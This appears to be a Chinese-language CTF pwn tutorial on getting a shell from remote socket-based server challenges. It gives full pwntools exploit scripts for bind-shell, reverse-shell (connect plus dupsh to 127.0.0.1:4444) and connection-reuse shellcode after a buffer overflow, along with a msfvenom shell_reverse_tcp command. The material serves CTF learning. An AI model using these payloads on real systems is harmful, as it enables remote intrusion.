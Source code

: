 参考文章：[Getshell远程：真·RCE 正连？反连？不连？](https://xuanxuanblingbling.github.io/ctf/pwn/2020/12/13/getshell3/)

用户态 server 类题目指的是那种，运行起来是个 server（服务端），需要本地的 exp.py 当客户端连上去打，这种题目可以用一个 python 文件做到常见的用户态题目的那种边调边打的效果。

```python
if args.G:
    command = ["ps", "-ax"]
    grep_command = ["grep", "pwn_patched"]
    ps_process = subprocess.Popen(command, stdout=subprocess.PIPE)
    grep_process = subprocess.Popen(grep_command, stdin=ps_process.stdout, stdout=subprocess.PIPE)
    ps_process.stdout.close()
    output = grep_process.communicate()[0]
    s = output.decode()
    pid = int(s.split("\n")[1][2:7], 10)  # 具体的提取 pid 的写法要根据实际情况调试一下。
    attach(pid, "breakrva 0x18f3")
```

另外，这种题目作为服务端一般都是用 socket 之类的套接字方法实现的，直接拿到的 shell 是在本地测的，打远程时并不会 getshell。方法如下：

### 正连

需要实现的 shellcode 的功能为：让漏洞程序在其本地开启一个网络端口，并在有连接连入时将 shell 进程的输入输出绑定到该连接上。

在 msf 中这个叫 `shell_bind_tcp`，在 pwntools 中叫 `shellcraft.bindsh()`，参数可以指定端口。

如下，我们shellcode将shell开在目标机器的4444端口，然后继续用pwntools的去连接该端口即可在攻击窗口中获得一个交互式的shell。

```python
sc = asm(shellcraft.bindsh(4444))
```

### 反连

需要实现的 shellcode 的功能为：让漏洞程序去连接远程的攻击者机器，并且将shell进程的输入输出绑定到此连接上。

在 msf 中这个叫 `shell_reverse_tcp`，在 pwntools 中需要两步 `shellcraft.connect()` + `shellcraft.dupsh()`。

根据文档，第一步会把与攻击者建立连接的文件描述符存放到rbp寄存器中，第二步会默认使用rbp寄存器中的文件描述符来重定向shell进程的输入和输出，即完成反连shell。

如下，攻击侧首先使用 pwntools 的 `listen` 函数监听本机的 4444 端口，然后 shellcode 执行后将 shell 反弹到攻击侧的 4444 端口，然后使用 pwntools 的 `wait_for_connection` 函数等待反连的连接，连入后即可在攻击窗口中获得一个交互式的shell。

```python
from pwn import *
context(arch='amd64',os='linux')

sh = listen(4444)
io = remote("127.0.0.1",8888)
shellcode = asm(shellcraft.connect('127.0.0.1',4444)+shellcraft.dupsh())
io.send('a'*40+p64(0x400698)+shellcode)

sh.wait_for_connection()
sh.interactive()
```

### 不连

这个不连其实是不产生新的连接，也就是连接复用。

在 msf 中这个叫 `shell_find_port`。

在 pwntools 有两种办法可以实现这个复用:
1. 第一个是直接用 `dupsh()`，参数的立即数直接猜我们打过去连接的文件描述符的编号；
2. 第二种方法是 `findpeersh`，参数可以指明连接的端口号以挑选出合适的连接（没太研究明白是哪侧的端口）。

本题如下，直接在攻击连接上获得交互式shell，并不用产生多余的连接。

```python
from pwn import *
context(arch='amd64',os='linux')
io = remote("127.0.0.1",8888)
#shellcode = asm(shellcraft.dupsh(4))
shellcode = asm(shellcraft.findpeersh(io.lport))
io.send('a'*40+p64(0x400698)+shellcode)
io.interactive()
```

### 总结

总结的几种打法都在这里了。

```python
from pwn import *
context(arch='amd64',os='linux')
io = remote("127.0.0.1",8888)
#shellcode = asm(shellcraft.sh())
#shellcode = asm(shellcraft.amd64.linux.bindsh(4444))
#shellcode = asm(shellcraft.connect('127.0.0.1',4444)+shellcraft.dupsh())
#shellcode = asm(shellcraft.dupsh(4))
#shellcode = asm(shellcraft.findpeersh(io.lport))
io.send('a'*40+p64(0x400698)+shellcode)
io.interactive()
```

msf 在使用时可以用 `msfvenom --list payloads` 查找。

另外可以用 `msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=2333 -f raw | xxd -p | sed 's/\(..\)/0x\1, /g' | fold --spaces --width 50` 这类的命令行管道来直接拿到可以扔到 exp 里的 shellcode